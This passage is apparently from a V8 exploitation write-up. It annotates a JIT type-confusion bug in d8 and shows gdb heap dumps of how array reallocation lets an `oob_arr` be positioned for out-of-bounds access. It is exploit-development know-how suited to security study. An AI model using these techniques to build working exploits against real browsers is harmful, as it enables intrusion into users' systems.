 - `[1]`: Start of type confusion when `jitted = true` and goes into `[2]` if block statement
- `[2]`: reallocates `a` to elements that take up less space
- `[3]`: `oob_arr` object is allocated below `a.elements`, i.e., pointer to `map` and `elements`, and `length`
- `[4]`: `oob_arr.elements` is allocated below `oob_arr` object
- `[5]`: `4.1835592388585281e-216` is pushed where `a` is still treated as `HOLEY_DOUBLE_ELEMENTS` in the JIT'd code

Now, let's see it in action through debugger. Note that although after `a.pop()`
causes `a.length == 7` and this changes are reflected on the `a` `JSArray` object,
the `length` on the `elements` is still `0x8` such that when `a.push(x)` is called
it does not need to reallocate `elements`.

> [!TIP]
> Use `eval("%SystemBreak()")` to properly break into debugger when analysing the changes

> [!CAUTION]
> Initializing `oob_arr` directly like so `oob_arr = [1.1]` would make a difference
> due to how the elements are initially allocated before the array object

### Before [2]

> [!NOTE]
> Since debug version of `d8` is extremely slow, it is advisable to use the
> release version (provided that one is comfortable in pin pointing the object structure in memory)

`a.elements` takes up `72` bytes

```console
$ gdb -ex 'run' --args './d8 --allow-natives-syntax --shell ./pwn.js'
0x2833000ddf69 <JSArray[7]>
gef> tele 0x2833000ddf69-0x1  # &a
0x2833000ddf68|+0x0000|+000: 0x000006cd0018eff1  # map = 0x18eff1, properties = 0x6cd
0x2833000ddf70|+0x0008|+001: 0x0000000e000ddfa1  # elements = 0xdc599, length = 0xe >> 1 = 0x7
gef> tele 0x2833000ddfa1-0x1  # &a.elements
0x2833000ddfa0|+0x0000|+000: 0x0000001000000851  # map = 0x851, length = 0x10 >> 1 = 0x8
0x2833000ddfa8|+0x0008|+001: 0xfff7fffffff7ffff  # a[0] the_hole_value
0x2833000ddfb0|+0x0010|+002: 0x3fb999999999999a  # a[1] 0.1
0x2833000ddfb8|+0x0018|+003: 0xfff7fffffff7ffff  # a[2] the_hole_value
0x2833000ddfc0|+0x0020|+004: 0xfff7fffffff7ffff  # a[3] the_hole_value
0x2833000ddfc8|+0x0028|+005: 0xfff7fffffff7ffff  # a[4] the_hole_value
0x2833000ddfd0|+0x0030|+006: 0xfff7fffffff7ffff  # a[5] the_hole_value
0x2833000ddfd8|+0x0038|+007: 0xfff7fffffff7ffff  # a[6] the_hole_value
0x2833000ddfe0|+0x0040|+008: 0xfff7fffffff7ffff  # a[7] the_hole_value (popped)
0x2833000ddfe8|+0x0048|+009: 0x00000006001923c5
```

### After [2]

- `a.elements` takes up `40` bytes (`0x2833000dedc4 - 0x2833000dedeb`)
- followed by `HeapNumber` object for `1.1`, takes up `12` bytes (`0x2833000dedec - 0x2833000dedf7`)

```console
gef> c
0x2833000ddf69 <JSArray[7]>
gef> tele 0x2833000ddf69-0x1  # &a
0x2833000ddf68|+0x0000|+000: 0x000006cd0018f071
0x2833000ddf70|+0x0008|+001: 0x0000000e000dedc5  # elements changed to 0xdedc5
gef> tele 0x2833000dedc5-0x1  # &a.elements
0x2833000dedc4|+0x0000|+000: 0x0000001000000565  # map = 0x565
0x2833000dedcc|+0x0008|+001: 0x000deded000deda9  # 0xdeda9 is pointer to `{}`, 0xdeded is pointer to `HeapNumber 1.1`
0x2833000dedd4|+0x0010|+002: 0x000006e9000006e9  # 0x6e9 s pointer to `the_hole_value`
0x2833000deddc|+0x0018|+003: 0x000006e9000006e9
0x2833000dede4|+0x0020|+004: 0x000006e9000006e9
```